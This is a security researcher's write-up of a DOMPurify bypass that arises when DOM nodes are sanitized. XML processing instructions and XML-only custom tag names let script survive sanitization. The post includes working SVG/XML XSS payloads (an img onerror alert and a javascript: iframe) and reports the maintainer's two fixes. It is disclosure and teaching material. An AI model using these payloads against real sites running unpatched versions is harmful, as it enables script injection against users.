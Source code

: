 +++
title = 'DOM Purify - untrusted Node bypass'
date = 2024-03-19T00:00:00+03:00
draft = false
+++

> The article is informative and intended for security specialists conducting testing within the scope of a contract. The author is not responsible for any damage caused by the application of the provided information. The distribution of malicious programs, disruption of system operation, and violation of the confidentiality of correspondence are pursued by law.

# Introduction

In this article, I aim to elucidate a deficiency in the implementation of DOMPurify that I recently uncovered. While it may not pertain to the most common use cases of this library, I found it to be a compelling discovery worthy of exploration.

# Purify ~~strings~~ nodes
In most scenarios, when utilizing the library, a string is passed to the sanitize function:
```javascript
DOMPurify.sanitize("<a href='https://x.com/slonser_'>slonser</a>")
// output: <a href="https://x.com/slonser_">slonser</a>
```
However, there exists a less common yet notable capability - passing an HTML Node as an argument to the function:
```javascript
let a_element = document.createElement("a")
a_element.href="https://x.com/slonser_"
DOMPurify.sanitize(a_element)
// output: <a href="https://x.com/slonser_">slonser</a>
```
I recently encountered such usage of the library. Let's consider a simplified example:
```javascript
        function pastUserFrame(user_link){
            let frame = document.createElement('iframe');
            frame.sandbox='allow-same-origin'
            frame.id='frame'
            frame.src=user_link
            document.body.appendChild(frame);
        }

        function validateOnClick(){
            let box = document.createElement('div')
            box.class='user-input'
            let button = frame.contentDocument.documentElement;
            box.appendChild(button)
            user_container.innerHTML = DOMPurify.sanitize(box)
        }
```
On this website, we have the capability to upload files and access them via a link. Unfortunately, all these links are subjected to a Content Security Policy (CSP) that prevents XSS exploitation. However, we have the ability to embed a tag from this document onto a page with a weaker CSP.

# You can't get XSS...
The truth is, the parsing process itself doesn't differ. If we look at the [code](https://github.com/cure53/DOMPurify/blob/fcb9dbd9a935d91e1a087b5ee721da1c6b008790/src/purify.js#L1425C7-L1439C6), the only distinction is that we don't need to first convert the string into a Node, because it already is one. So, the process cannot be circumvented unless we find a way to bypass DOMPurify's filtering in general cases.
```javascript
else if (dirty instanceof Node) {
      /* If dirty is a DOM element, append to an empty document to avoid
         elements being stripped by the parser */
      body = _initDocument('<!---->');
      importedNode = body.ownerDocument.importNode(dirty, true);
      if (importedNode.nodeType === 1 && importedNode.nodeName === 'BODY') {
        /* Node is already a body, use as is */
        body = importedNode;
      } else if (importedNode.nodeName === 'HTML') {
        body = importedNode;
      } else {
        // eslint-disable-next-line unicorn/prefer-dom-node-append
        body.appendChild(importedNode);
      }
    }
```
# Confusion...
Therefore, I decided to think differently. If I don't want to bypass the parser, what unexpected behavior can I trigger?
After some thought, I realized that **confusion between HTML and XML** contexts could help achieve XSS.


If I were to elaborate on my thought, the issue lies in the fact that an XML Node can be a child element of HTML Node, and I immediately assumed that this could create problems.


I tested by uploading a simple SVG file to the server and inserting its link into the function call.
*svg.svg*
```xml
<!DOCTYPE svg PUBLIC "-//W3C//DTD SVG 1.0//EN" "http://www.w3.org/TR/2001/REC-SVG-20010904/DTD/svg10.dtd"><svg id="slons" xmlns="http://www.w3.org/2000/svg"><circle></circle></svg>
```
After that, we can verify that the object was successfully transferred into the HTML tree.
![](./1.jpg)
# And what?
Yes, we can indeed insert an XML node into HTML, but that alone doesn't give us the opportunity to obtain XSS. What's next? We should look for differences between XML and HTML!

And at that moment, I remembered that in XML there exists a concept called **Processing Instructions**, whereas in HTML it is absent.

**Processing Instructions** in XML are special markup constructs used to convey instructions to applications that process XML documents. They are typically used to provide information about how the XML document should be processed or interpreted, rather than representing data or content within the document itself.

Processing Instructions are structured as follows:
```
<?target instructions?>
```
# Purify instructions?
I immediately decided to see how DOMPurify handles Processing Instructions.
```javascript
DOMPurify.sanitize("<?xml-stylesheet src='slonser' ?>", {PARSER_MEDIA_TYPE: 'application/xhtml+xml'});
// output: <?xml-stylesheet src='slonser' ?>
```
So, Process Instructions are not removed, but why?
Let's check the source code:
```javascript
  const _createNodeIterator = function _createNodeIterator(root) {
    return createNodeIterator.call(root.ownerDocument || root, root,
    // eslint-disable-next-line no-bitwise
    NodeFilter.SHOW_ELEMENT | NodeFilter.SHOW_COMMENT | NodeFilter.SHOW_TEXT, null);
  };
```
`_createNodeIterator` is a function that traverses the DOM tree objects, used for sanitizing elements. As a matter of fact, the following filters are passed to it: `NodeFilter.SHOW_ELEMENT | NodeFilter.SHOW_COMMENT | NodeFilter.SHOW_TEXT`, but in order for the iterator to return Process instructions, the filter `NodeFilter.SHOW_PROCESSING_INSTRUCTION` must be enabled.

# Processing Instructions in HTML?
Let's pass the following file via link to the application we are examining:
```xml
<!DOCTYPE svg PUBLIC "-//W3C//DTD SVG 1.0//EN" "http://www.w3.org/TR/2001/REC-SVG-20010904/DTD/svg10.dtd"><svg id="slons" xmlns="http://www.w3.org/2000/svg"><?slonser href="C4T BuT S4D"?> </svg>
```
![](./2.jpg)
We will see that our instruction has turned into a comment. So, have we lost? 


No. If you look closely, you will notice that in XML, the closing delimiter will be `?>`, whereas the HTML parser in the browser will search for `>` until the end of the comment.
Now let's upload the next file:
```xml
<!DOCTYPE svg PUBLIC "-//W3C//DTD SVG 1.0//EN" "http://www.w3.org/TR/2001/REC-SVG-20010904/DTD/svg10.dtd"><svg id="slonser" xmlns="http://www.w3.org/2000/svg"><?xml-stylesheet > <img src=x onerror="alert('DOMPurify bypassed!!!')"> ?></svg>
```
And we will see a popup alert! while the structure of the DOM tree will look like this:
![](./3.jpg)

# First Fix
On the same day, I wrote to the project maintainer, and he almost instantly pushed the [fix](https://github.com/cure53/DOMPurify/commit/1b5963966c6a444f5ebc6f77e0c21a1d46a80164). (I think if there was a prize for the fastest fix, he would win it.):
``` javascript
-    NodeFilter.SHOW_ELEMENT | NodeFilter.SHOW_COMMENT | NodeFilter.SHOW_TEXT, null);
+    NodeFilter.SHOW_ELEMENT | NodeFilter.SHOW_COMMENT | NodeFilter.SHOW_TEXT | NodeFilter.SHOW_PROCESSING_INSTRUCTION, null);
```
As you can see now, NodeFilter also check Process Instructions, and now they are removed. But does this completely fix the problem at its core?
# Custom configuration
Yes, this does indeed solve the issue in the standard configuration, but what about when the user extends the standard configuration?
For example:
```javascript
DOMPurify.sanitize(box, {CUSTOM_ELEMENT_HANDLING: {
        tagNameCheck: /-foo-bar$/,
        allowCustomizedBuiltInElements: true,
    }
})
```
This configuration allows any custom tags ending with `-foo-bar`.


In such a configuration, the problem will still persist. But why?


The issue lies in the fact that XML and HTML have different requirements for tag names.
While the tag `<_slonser-foo-bar>` will be valid in XML, it won't be recognized as a tag in HTML.
So let's test this file with extended configuration:
```xml
<!DOCTYPE svg PUBLIC "-//W3C//DTD SVG 1.0//EN" "http://www.w3.org/TR/2001/REC-SVG-20010904/DTD/svg10.dtd"><_slonser-foo-bar data-slonser='&lt;iframe/src=javascript:alert()&gt;'></_slonser-foo-bar>
```
We will see the alert again, and the structure of the DOM tree will look like this:
![](./4.jpg)

# Second Fix
The next day, a fix was introduced for this issue. It involves checking the customElement name with a special regular expression:
```javascript
export const CUSTOM_ELEMENT = seal(/^[a-z][a-z\d]*(-[a-z\d]+)+$/i);
...
return tagName !== 'annotation-xml' && stringMatch(tagName, CUSTOM_ELEMENT);
```

# Conclusion
At the end of the article, I want to express gratitude to mario of [cure53](https://twitter.com/cure53berlin) for the quick resolution of the issue. I hope you enjoyed my article and learned a bit more about the differences between HTML and XML.